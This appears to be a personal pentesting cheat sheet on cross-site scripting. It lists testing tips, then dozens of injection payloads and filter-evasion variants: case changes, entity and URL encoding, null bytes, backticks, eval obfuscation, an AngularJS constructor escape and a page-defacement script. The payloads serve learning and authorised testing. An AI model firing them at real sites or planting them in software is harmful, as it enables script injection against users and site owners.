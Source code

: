 --- ---

<h2>XSS Injection Technique & Evasion</h2>

Always try to enter DUM texte (ABC123) in parameters and in search query. Simply search on the page if this is reflected anywhere!

- `Website.com//feedback?returnPath=/ABC123`
-  Search Query

Content Security Policy (CSP)
- If you seem able to bypass some filter but cant get any popup, try diffrent event (onmouseover, onload, ...) and also try different variations of the script tag or evasion (javascript:, `<SCipt>`, ...)
```
Content-Security-Policy: default-src 'none'; script-src 'self'; style-src 'self'; img-src 'self';
```


Type
```
<script>alert('xss')</script>
<img src=x onerror=alert('1')>
javascript:alert(%27xss%27)
```

IMG
```Terminal
<img src=x>

<img src=1 onerror=alert(1)>
```

href
```
href="javascript:alert(1)"
```

DOM
```
location.search      ---> Search in the URL for a parameter
write.document       ---> This will write to the HTML (Adding something depending on the code)
```

- How to exploit: If you have a variable fetching for ID in the URL and then pasting this value to the HTML, you can create a DOM XSS

Other JS Language
```
# AngularJS
<body ng-app="" class="ng-scope">               ---> Interested in the ng-app
{{$on.constructor("alert(1)")()}}               ---> Explained Below
```

- AngularJS
	- the JavaScript `constructor` function to create a new object with a specified function as its `constructor` attribute. The function being passed to the `constructor` attribute is an `alert` function that displays a message. The code then calls the object using the `()` operator, causing the `alert` function to be executed. PS: We can see the code on the page once it is executed

---

<h2>Evasion</h2>

Encoding
```
urlencode "http://example.com/?param=linux+url+encoder"

<img onerror=&#34alert(1)&#34src=x>
<img onerror=&#39alert(1)&#39src=x>
...

<script>Encoding</script>  ---> %3Cscript%3EEncoding%3C%2Fscript%3E
```

- urlencode ---> Tool to encode url (Possible to encode many times)

Basic Modification
```Terminal
#Encoded tabs/newlines/CR
<script&#9>alert(1)</script>
<script&#10>alert(1)</script>
<script&#13>alert(1)</script>

#Capital letters
<ScRipT>alert(1)</sCriPt>

#If angle brackets are encoded
-alert(1)-  ---> (-) replace (> or <)
```

Adding Nullbytes
```Terminal
<%00script>alert(1)</script>
<scr%00ipt>alert(1)</script>
```

Attributes and Tags
```Terminal
<input type="text" name="input" value="hello" >
<input type="text" name="input" value=">< script >alert(1)</script>
<randomtag type="text" name="input" value=">< script >alert(1)</script>
<input/type="text" name="input" value=">< script >alert(1)</script>
<input&#9type="text" name="input" value=">< script >alert(1)</script>
<input&#10type="text" name="input" value=">< script >alert(1)</script>
<input&#13type="text" name="input" value=">< script >alert(1)</script>
<input/'type="text" name="input" value=">< script >alert(1)</script>
<iNpUt type="text" name="input" value=">< script >alert(1)</script>
```

Attributes Nullbytes
```Terminal
<%00input type="text" name="input" value="><script>alert(1)</script>
<inp%00ut type="text" name="input" value="><script>alert(1)</script>
<input t%00ype="text" name="input" value="><script>alert(1)</script>
<input type="text" name="input" value="><script>a%00lert(1)</script>
```

Event Handler
```Terminal
<input onsubmit=alert(1)>

---> onsubmit is the event

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
```

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet (VERY GOOD)

Delimiters & Backticks and Brakers
```
#() to Backticks
<img onerror="alert(1)"src=x>
<img onerror='alert(1)'src=x>

#Backticks
	<img onerror=`alert(1)`src=x>
	
#Encoded backtics
	<img onerror=&#96alert(1)&#96src=x>

#Double use of delimiters
	<<script>alert(1)//<</script>

#Unknown delimiters
	«input onsubmit=alert(1)»
```

Oval ()
```Terminal
<script>eval('a\u006cert(1)')</script>
<script>eval('al' + 'ert(1)')</script>
<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))</script>    
```

Word Filter (If some javascript element is filtered)
```Terminal
<scrscriptipt > might become <script>
```

HTML Defacing
```Terminal
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

---

All Information ---> https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

<iframe src="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" width="100%" height="1300"></iframe>